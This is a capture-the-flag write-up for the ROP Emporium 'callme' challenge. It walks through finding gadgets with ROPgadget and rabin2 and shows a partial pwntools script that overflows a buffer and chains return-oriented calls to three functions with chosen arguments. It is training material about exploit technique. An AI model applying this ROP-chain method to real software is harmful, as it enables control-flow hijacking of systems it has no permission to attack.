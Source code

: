 # CALLME

[callme](https://ropemporium.com/challenge/callme.html)

Instead of one argument, we now need to pass in **THREE** arguments to a function now! And now there are 3 functions to return to!?

Don't fret. All of the knowledge from the last 2 challenges should be able to carry us forward through this challenge and we don't have to worry too much about the Procedure Linkage Table just yet. And because we are not using the x86 32 bit architecture, we don't have to pass arguments through the stack, which would make everything excruciatingly harder.

Remember this [article](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI) about the x86_64 calling convention? This will be very important for what we're going to do next. Since we have 3 arguments to pass into each function, we need to somehow pop them into the `rdi`, `rsi` and `rdx` registers, before returning to `callme_one`, `callme_two` or `callme_three`.

Let's start looking for gadgets and functions now!

```
$ ROPgadget --binary ./callme | grep "pop rdi"
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

```
$ ROPgadget --binary ./callme | grep ": ret$"  
0x00000000004006be : ret
```

```
$ rabin2 -i ./callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

Let's take a look at what we have:

```
0x40093c : pop rdi ; pop rsi ; pop rdx ; ret
0x4006be : ret
0x400720 : callme_one
0x400740 : callme_two
0x4006f0 : callme_three
0xdeadbeefdeadbeef : argument 1
0xcafebabecafebabe : argument 2
0xd00df00dd00df00d : argument 3
```

This should be all that is necessary to create our buffer overflow.

```python
# ./win.py
from pwn import *
...
POP = p64(0x40093c)
RET = p64(0x4006be)
ARG1 = p64(0xdeadbeefdeadbeef)
ARG2 = p64(0xcafebabecafebabe)
ARG3 = p64(0xd00df00dd00df00d)
attack = b"A"*0x28
# callme_one
attack += POP + ARG1 + ARG2 + ARG3 + RET + p64(0x400720)
# callme_two
attack += POP + ARG1 + ARG2 + ARG3 + RET + p64(0x400740)
# callme_three
attack += POP + ARG1 + ARG2 + ARG3 + RET + p64(0x4006f0)
io.sendline(attack)
...
```